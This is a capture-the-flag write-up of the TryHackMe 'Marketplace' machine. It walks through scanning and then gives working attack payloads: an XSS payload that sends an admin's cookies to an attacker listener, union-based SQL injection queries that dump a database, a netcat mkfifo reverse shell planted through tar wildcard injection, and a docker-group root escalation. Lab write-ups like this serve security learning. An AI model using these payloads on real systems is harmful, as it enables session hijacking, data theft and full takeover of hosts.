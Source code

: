 ```yaml
---
title: Marketplace Tryhackme Writeup
published: true
---
```


Today I bring you the writeup of [marketplace](https://tryhackme.com/room/marketplace), a tryhackme machine focused on web exploitation, here we go!

First we start with a port scan to see which ports are open.

```shell
nmap -p- --min-rate 5000 IP
```

With -p- we indicate that we want it to look at all ports and the --min-rate 5000 to do it very fast.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escaneo_1.png)

Now that we know the ports, let's scan them deeply to see versions and so on.

```shell
nmap -sC -sV -p22,80,32768 --min-rate 5000 IP
```

With -sC we indicate that we want to run the default nmap scripts and -sV to get the service versions.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escaneo_2.png)

We see that we get the robots.txt with /admin then we will enter

We investigate ports 80 and 32768 and go to exactly the same web, so we will skip port 32768.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/web_home.png)

If we go to /admin it tells us this

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/admin.png)

We are going to register a new account to be able to see the product options and so on.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/registrar.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/logeo.png)

Let's enter a product and click on the two options below, the one to report the product and the one to write to the product creator.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/producto.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensage_creador.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensaje_mandado.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/reportar_producto.png)

When reporting we get a message that the admin has checked the product; we have an option to create a product, we go there.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensaje_despues_de_reportar_en_messages.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/new_listing.png)

Let's check if the creation of a product has xss and we could try to steal cookies from the admin when checking a report; xss is a vulnerability that allows us to execute javascript code, I will do a blog explaining it in depth soon.

```shell
<script>alert(1)</script>
<script>alert(2)</script>
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/nuevo_producto_con_xss_prueba.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/xss_1_ok.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/xss_2_ok.png)

We see that it is vulnerable, we are going to create another product to steal the cookies, but first we are going to open a python server to get them.

```shell
python3 -m http.server
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/python_server_para_xss_cookies_al_reportar.png)

Now to make the product for the cookies.

```shell
<img src=x onerror=this.src="http://IP:Port/?c="+document.cookie>
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/Producto_roba_cookies.png)

When we enter the product and hit report we will get the admin cookies, now let's change ours for those and go to /admin.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/cookie_admin.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/panel_admin_con_cookies.png)

We are going to enter in some user that we get.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/admin_user_1.png)

If we see the url we can try a sqli; SQLi is a vulnerability that allows us to perform sql queries through the web to obtain information, I will upload a blog to explain it deeply in a while.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/prueba_sqli.png)

It seems vulnerable, let's try to exploit it, with sqlmap I couldn't because the admin cookie changes every x time so you will have to get it again.

Let's see how many fields you have to write to do our tests.

```shell
user=1 order by 4-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/numero%20de%20columnas.png)

Now let's try to get the databases.

```shell
user=0 union select 1,group_concat(0x7c,schema_name,0x7c),3,4 from information_schema.schemata-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/databases.png)

We are interested in the database marketplace, now let's take out the tables it has.

```shell
user=0 union select 1,group_concat(0x7c,table_name,0x7c),3,4 from information_schema.tables where table_schema='marketplace'-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/tablas.png)

We see a messages table that seems quite interesting since the others are in the admin panel itself, at least, apparently.

```shell
user=0 union select 1,group_concat(0x7c,column_name,0x7c),3,4 from information_schema.columns where table_name='messages'-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/nombre%20de%20columnas%20de%20tabla%20mensajes.png)

Let's take a look at the message_content to see if it has anything interesting.

```shell
user=0 union select 1,group_concat(0x7c,message_content,0x7c),3,4 from marketplace.messages-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/contenido%20de%20los%20mensajes,%20donde%20hay%20ssh%20password.png)

We see a password, and we have several usernames of accounts created before ours which are:
system
michael
jake

Let's try to connect via ssh to those accounts.

```shell
ssh jake@IP
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/shell%20con%20jake.png)

Let's look at the sudo permissions you have.

```shell
sudo -l
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/sudo%20-l%20jake.png)

We see that you have permissions with the user michael in a script, if we read that script we see that it makes a backup of everything in the /opt/backups folder.

To escalate privileges to michael we can use the [wildcards](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks#tar) of tar so that we get a reverse when we make the backup.

```shell
nc -lvp PORT
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/abrimos%20puerto.png)

```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" > shell.sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
chmod 777 shell.sh
chmod 777 backup.tar
sudo -u michael /opt/backups/backup.sh
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/comandos_movimiento_lateral.png)

We get the reverse and we are already michael.

```shell
id
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/grupo%20docker%20para%20escalar.png)

We see that it is inside the [docker](https://gtfobins.github.io/gtfobins/docker/#shell) group, let's use that to escalate privileges.

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escalada%20a%20root.png)

And that's all! thanks for reading.
